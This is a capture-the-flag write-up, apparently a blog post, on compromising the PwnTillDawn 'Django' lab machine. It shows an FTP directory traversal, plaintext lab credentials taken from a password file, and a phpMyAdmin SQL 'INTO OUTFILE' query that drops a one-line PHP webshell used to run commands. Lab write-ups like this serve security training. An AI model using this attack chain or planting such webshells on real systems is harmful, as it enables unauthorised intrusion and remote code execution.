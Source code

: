 ```yaml
---
title: Django Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-28 17:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, exploit-db, ftp, phpmyadmin, php rce, webshell]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143782183-182fa254-95bd-4914-bcb2-278f12a3eda4.png)<br><br>

**> Information Gathering**<br>
In every engagement, one has to gather information first. As usual we run our nmap scan and from we can see that port 21 (ftp), 80 (http), 443 (ssl), 3306 (mysql) & 8089 (splunkd) are open.<br>
![image](https://user-images.githubusercontent.com/67085453/143782188-0e6f1c6a-177f-4f32-b326-2210b048a601.png)<br>

FTP service running on the target has anonymous login enabled. So we log in with `anonymous` as a username and continued to gather more information.<br>
![image](https://user-images.githubusercontent.com/67085453/143782193-998e0ce4-e8b7-40ae-bc06-de7feb8d8f60.png)<br>

During the anonymous login, FTP printed the banner `220-Wellcome to Home Ftp Server!`. This banner does not look like the usual banner on FTP services. This is interesting to look at could be a different ftp sofware installed on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782198-aed0d1d8-a8bd-4c48-bec4-c417c6079df9.png)<br>

A quick research on google shows that some version of `Home Ftp Server!` are vulnerable and there are some exploits out there.<br>
![image](https://user-images.githubusercontent.com/67085453/143782209-d66f3f9a-6bae-4a39-8cea-08937c988cec.png)<br>

We found an exploit on <a href="https://www.exploit-db.com/exploits/15349">Exploit-DB</a> which states that `Home FTP Server version 1.11.1.149` has `Directory Traversal` vulnerability. <br>
![image](https://user-images.githubusercontent.com/67085453/143782221-7dce38e4-2619-464a-9050-a6f13b469a0c.png)<br>

To exploit this vulnerability, all we need to do is to apply `/..` to the path and we can retrieve files or navigate directories. <br>
![image](https://user-images.githubusercontent.com/67085453/143782261-e0d2440d-6184-4d29-973e-27857d8eaa64.png)<br>

Typing `cd /..` takes us to the root path as seen in teh screenshot above. Indeed this version is vulnerable to `Directory Traversal`. After a couple of minutes, i found a `passwords.txt` file in the `/../xampp` directory and quickly grabbed this file to my machine. <br>
![image](https://user-images.githubusercontent.com/67085453/143782281-c9e6163d-ca6d-458e-bfb4-9d134a506dde.png)<br>

Reading the contents of `passwords.txt` revealed credentials to `MySQL (phpMyAdmin)`. The credentials found was `root:thebarrierbetween`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782293-2d934d99-50cc-4921-952d-30f772351b56.png)<br>

From nmap we know that this target has a webserver running on port 80. Browsing to port 80 we can see the default page of xampp webapp. This is no suprpise since we saw xampp from FTP session<br>
![image](https://user-images.githubusercontent.com/67085453/143782297-855aaeea-7b7f-4911-8541-5ebab092007a.png)<br>

On the upper-right corner on the dashboard we can see `phpMyAdmin`. Clicking on it leads us to `phpMyAdmin` login page. <br>
![image](https://user-images.githubusercontent.com/67085453/143782302-b13f94e1-569b-4f0d-8db6-6af9f8ee7677.png)<br>

We have the credentials already. I input the credentials `root:thebarrierbetween` on the login page.<br>
![image](https://user-images.githubusercontent.com/67085453/143782329-3679b60e-d2ed-46bb-ad88-45164bb76bef.png)<br>

A successful login should lead you to the admin dashboard. Remember you logged in as `root` user so we have full control over the database. There is a 90% chance that we can use `SQL Query` to create  a `php backdoor`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782333-aa8a1e32-8d2b-4ac8-8990-88b082b5503d.png)<br>  

Click on `SQL`, and type the following query `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"` from ftp, we can confirm the path of `xampp` on the target. Click on `go` to create our backdoor.<br>
![image](https://user-images.githubusercontent.com/67085453/143782341-e9e3c7b1-5860-4661-997f-752d7cd4453c.png)<br>

Log into `FTP` again, navigate to the `/../xampp/htdocs` directory to check if your file `backdoor.php` exists. If it exists, then we are 2 steps away from gaining `code execution` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782348-2eeb504a-c02d-4c84-8b67-cb559b0ae626.png)<br>

Navigate to http://10.150.150.212/backdoor.php?cmd=whoami and we have `code execution` on the target. You can replace `whoami` in the url with any windows commands. Good luck getting shell.<br>
![image](https://user-images.githubusercontent.com/67085453/143782353-db573f36-5613-487e-a99c-e8854b0f31de.png)<br> 


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
